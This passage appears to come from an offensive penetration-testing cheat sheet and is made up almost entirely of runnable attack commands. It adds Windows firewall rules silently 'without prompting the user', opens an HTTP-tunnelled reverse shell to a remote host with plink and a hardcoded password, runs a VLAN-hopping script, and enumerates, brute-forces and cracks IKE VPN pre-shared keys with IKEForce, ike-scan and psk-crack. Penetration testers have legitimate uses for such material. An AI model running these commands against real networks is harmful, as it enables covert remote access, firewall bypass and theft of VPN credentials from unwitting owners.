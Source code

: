     -   Windows machine add required firewall rules without prompting the user

    -   `netsh advfirewall firewall add rule name="httptunnel_client" dir=in action=allow program="httptunnel_client.exe" enable=yes`

    -   `netsh advfirewall firewall add rule name="3000" dir=in action=allow protocol=TCP localport=3000`

    -   `netsh advfirewall firewall add rule name="1080" dir=in action=allow protocol=TCP localport=1080`

    -   `netsh advfirewall firewall add rule name="1079" dir=in action=allow protocol=TCP localport=1079`

    -   Start the http tunnel client

         `httptunnel_client.exe`

    -   Create HTTP reverse shell by connecting to localhost port 3000

        `plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P 3000`

-   VLAN Hopping

    -   `git clone https://github.com/nccgroup/vlan-hopping.git
        chmod 700 frogger.sh
        ./frogger.sh`


-   VPN Hacking

    -   Identify VPN servers:
        `./udp-protocol-scanner.pl -p ike $ip`

    -   Scan a range for VPN servers:
        `./udp-protocol-scanner.pl -p ike -f ip.txt`

    -   Use IKEForce to enumerate or dictionary attack VPN servers:

        `pip install pyip`

        `git clone https://github.com/SpiderLabs/ikeforce.git  `

        Perform IKE VPN enumeration with IKEForce:

        `./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic  `

        Bruteforce IKE VPN using IKEForce:

        `./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1  `
        Use ike-scan to capture the PSK hash:

        `ike-scan
        ike-scan TARGET-IP
        ike-scan -A TARGET-IP
        ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key
        ike-scan –M –A –n example\_group -P hash-file.txt TARGET-IP  `
        Use psk-crack to crack the PSK hash

        `psk-crack hash-file.txt
        pskcrack
        psk-crack -b 5 TARGET-IPkey
        psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key
        psk-crack -d /path/to/dictionary-file TARGET-IP-key`
